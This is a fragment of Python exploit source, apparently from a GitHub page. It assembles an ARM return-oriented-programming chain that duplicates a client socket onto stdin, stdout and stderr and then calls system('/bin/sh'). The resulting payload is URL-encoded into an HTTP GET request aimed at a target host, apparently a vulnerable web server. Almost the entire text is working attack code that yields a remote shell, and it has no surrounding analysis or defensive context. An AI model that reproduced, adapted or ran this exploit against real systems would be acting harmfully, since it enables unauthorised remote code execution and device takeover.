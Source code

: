 ```python
        payload += p32(0xdeadbeef) # r6
        payload += p32(dup2_ea) # dup2(csock, 0) (will pop {r7, pc})
        payload += p32(0xdeadbeef) # r2
        payload += p32(g_mov_r1_0_ea) # also set r0 to 0
        payload += p32(0xdeadbeef) # r4
        payload += p32(0xdeadbeef) # r5
        payload += p32(0xdeadbeef) # r6
        payload += p32(g_add_r1_1_with_r0_cmp_ea)
        payload += p32(stack_csock_ea) # r4
        payload += p32(g_ldr_r0_r4_ea)
        payload += p32(0xdeadbeef) # r4
        payload += p32(0xdeadbeef) # r5
        payload += p32(0xdeadbeef) # r6
        payload += p32(dup2_ea) # dup2(csock, 1) 
        payload += p32(0xdeadbeef) # r7
        payload += p32(g_mov_r1_0_ea) # also set r0 to 0
        payload += p32(0xdeadbeef) # r4
        payload += p32(0xdeadbeef) # r5
        payload += p32(0xdeadbeef) # r6
        payload += p32(g_add_r1_1_with_r0_cmp_ea)
        payload += p32(0xdeadbeef) # r4
        payload += p32(g_add_r1_1_with_r0_cmp_ea)
        payload += p32(stack_csock_ea) # r4
        payload += p32(g_ldr_r0_r4_ea)
        payload += p32(0xdeadbeef) # r4
        payload += p32(0xdeadbeef) # r5
        payload += p32(0xdeadbeef) # r6
        payload += p32(dup2_ea) # dup2(csock, 2)
        payload += p32(0xdeadbeef) # r7
        payload += p32(g_pop_r4_ea)
        payload += p32(stack_dummy_ea) # r4
        payload += p32(g_mov_r0_r4_ea)
        payload += p32(0xdeadbeef) # r4
        payload += p32(g_pop_r1_r2_r3_ea)
        payload += p32(stack_sin_ea+8) # r1
        payload += p32(stack_sin_ea+8) # r1
        payload += p32(0xdeadbeef)
        #payload += p32(0xdeadbeef) # r1
        #payload += p32(0xffffffff) # r2
        #payload += p32(0xdeadbeef) # r3
        #payload += p32(g_add_r2_1_ea)
        #payload += p32(0xdeadbeef) # r4
        #payload += p32(g_mov_r1_0_ea) # also set r0 to 0
        payload += p32(g_pop_r4_ea)
        payload += p32(binsh_ea)
        payload += p32(g_mov_r0_r4_ea)
        payload += p32(0xdeadbeef) # r4
        payload += p32(system_ea) # execve("/bin/sh", NULL, NULL)
       

        
        with open("payload.bin", "wb+") as f:
            f.write(payload)

        if check_null_bytes(payload):
            exit(1)


        req = b'GET /' + urlencode(payload).encode() + b' HTTP/1.1\r\n'
        req += b'Host: ' + args.host[0].encode() + b'\r\n'
        req += b'\r\n'
        #req = b'GET /' + payload + b' HTTP/1.1\r\n'
        #req += b'Host: ' + args.host[0].encode() + b'\r\n'
```